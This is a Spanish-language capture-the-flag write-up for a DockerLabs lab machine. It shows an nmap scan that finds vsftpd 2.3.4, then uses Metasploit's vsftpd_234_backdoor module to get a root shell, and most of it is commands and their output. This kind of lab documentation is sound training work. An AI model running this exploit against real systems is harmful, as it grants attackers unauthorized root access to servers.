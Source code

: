 #FristHacking DockerLabs - 14/05/2024

#web - https://dockerlabs.es/#/

Empezamos escaneando los puertos con nmap:

```shell
└─$ nmap -sVC -p- -n --min-rate 5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-14 21:43 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00012s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 3.02 seconds

```

Encontramos un servidor ftp con la version "vsftpd 2.3.4", esta versión puede ser explotada con Metaexploit rápidamente:

```shell
└─$ msfconsole
```

```shell
msf6 > search vsftpd

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  auxiliary/dos/ftp/vsftpd_232          2011-02-03       normal     Yes    VSFTPD 2.3.2 Denial of Service
   1  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution

```

```shell
msf6 auxiliary(dos/ftp/vsftpd_232) > use 1
```

```shell
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    21               yes       The target port (TCP)


Payload options (cmd/unix/interact):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Exploit target:

   Id  Name
   --  ----
   0   Automatic




```

```shell
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 172.17.0.2

```shell
[*] 172.17.0.2 - Command shell session 1 closed.  Reason: User exit
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 172.17.0.2:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 172.17.0.2:21 - USER: 331 Please specify the password.
[+] 172.17.0.2:21 - Backdoor service has been spawned, handling...
[+] 172.17.0.2:21 - UID: uid=0(root) gid=0(root) groups=0(root)
[*] Found shell.
[*] Command shell session 2 opened (172.17.0.1:41249 -> 172.17.0.2:6200) at 2024-05-14 21:59:23 +0200

whoami
root



```
